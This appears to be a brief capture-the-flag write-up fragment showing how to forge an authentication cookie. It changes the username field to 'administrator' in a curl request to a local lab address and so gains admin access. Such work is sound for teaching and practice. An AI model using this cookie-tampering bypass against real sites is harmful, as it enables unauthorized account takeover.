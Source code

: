 Go to the site and log in; you'll get a cookie set such as:

    username=guest&date=2017-01-28T17:12:33-061120&secret_length=8&

All you have to do is change the username:

    curl 'http://172.17.0.2/index.php' -H 'Cookie: auth=username%3Dadministrator%26date%3D2017-02-02T03%3A41%3A45%2B0000%26'
